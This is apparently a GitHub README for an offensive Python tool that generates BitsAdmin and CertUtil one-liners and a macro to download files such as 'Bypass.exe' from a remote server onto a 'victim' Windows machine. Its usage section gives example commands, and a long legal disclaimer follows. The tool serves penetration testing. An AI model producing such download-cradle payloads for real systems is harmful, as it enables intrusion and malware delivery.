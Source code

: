 # BitsAdmin Payload Generator (BPG)
BPG is a Python-based tool designed to craft custom payloads for BitsAdmin, a legitimate Windows utility, to download files from a remote location. Additionally, BPG can generate a macro to utilize CertUtil, another built-in Windows tool, to facilitate the download process. This payload generator enables users to create a one-liner command that can be used to download a file via BitsAdmin and CertUtil, making it a useful tool for penetration testers, red teamers, and security researchers.


### Usage

To use the default web server port (80) you can use this command:
```
python3 bitsadmin.py -i 192.168.1.99 -j myJob -f file.txt -l 'C:\users\victim' -o enc.txt -exe Bypass.exe
```
Is your server running on a different port you can use this command:
```
python3 bitsadmin.py -i 192.168.1.99 -p 1234 -j myJob -f file.txt -l 'C:\users\victim' -o enc.txt -exe Bypass.exe
```

### Disclaimer
BPG is a tool designed for legitimate purposes, such as penetration testing, red teaming, and security research. It should not be used for any illegal or unauthorized activities. Using BPG to download or distribute malicious files, or to compromise systems without permission, is strictly prohibited.

#### Consequences of Misuse
Misusing BPG can result in serious consequences, including but not limited to:
- Violation of applicable laws and regulations
- Civil and/or criminal penalties
- Damage to your reputation and credibility
- Harm to innocent parties

#### Limitation of Liability
The author and maintainer of BPG disclaim any responsibility for the actions of users who choose to misuse this tool. By using BPG, you acknowledge that you are solely responsible for your actions and the consequences that may result from them.

#### Ethical Use
BPG should only be used in accordance with applicable laws and regulations, and in a manner that is consistent with ethical guidelines and standards. If you are unsure about the legitimacy of your intended use, please consult with a qualified professional or seek guidance from a relevant authority.

By using BPG, you agree to these terms and acknowledge that you will use the tool responsibly and ethically.
